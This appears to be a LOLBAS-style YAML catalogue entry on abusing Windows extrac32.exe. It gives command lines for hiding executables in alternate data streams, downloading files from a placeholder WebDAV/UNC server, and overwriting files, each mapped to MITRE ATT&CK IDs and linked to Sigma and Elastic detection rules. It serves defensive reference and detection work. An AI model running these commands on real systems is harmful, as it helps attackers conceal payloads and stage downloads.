 ```yaml
---
Name: Extrac32.exe
Description: Extract to ADS, copy or overwrite a file with Extrac32.exe
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe
    Description: Extracts the source CAB file into an Alternate Data Stream (ADS) of the target file.
    Usecase: Extract data from cab file and hide it in an alternate data stream.
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Type: Compression
  - Command: extrac32 \\webdavserver\webdav\file.cab c:\ADS\file.txt:file.exe
    Description: Extracts the source CAB file on an unc path into an Alternate Data Stream (ADS) of the target file.
    Usecase: Extract data from cab file and hide it in an alternate data stream.
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Type: Compression
  - Command: extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
    Description: Copy the source file to the destination file and overwrite it.
    Usecase: Download file from UNC/WEBDav
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: extrac32.exe /C C:\Windows\System32\calc.exe C:\Users\user\Desktop\calc.exe
    Description: Command for copying calc.exe to another folder
    Usecase: Copy file
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\extrac32.exe
  - Path: C:\Windows\SysWOW64\extrac32.exe
Code_Sample:
  - Code:
Detection:
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_misc_lolbin_connecting_to_the_internet.toml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_extrac32.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_extrac32_ads.yml
Resources:
  - Link: https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
  - Link: https://twitter.com/egre55/status/985994639202283520
Acknowledgement:
  - Person: egre55
    Handle: '@egre55'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Hai Vaknin(Lux
    Handle: '@VakninHai'
  - Person: Tamir Yehuda
    Handle: '@tim8288'
---
```

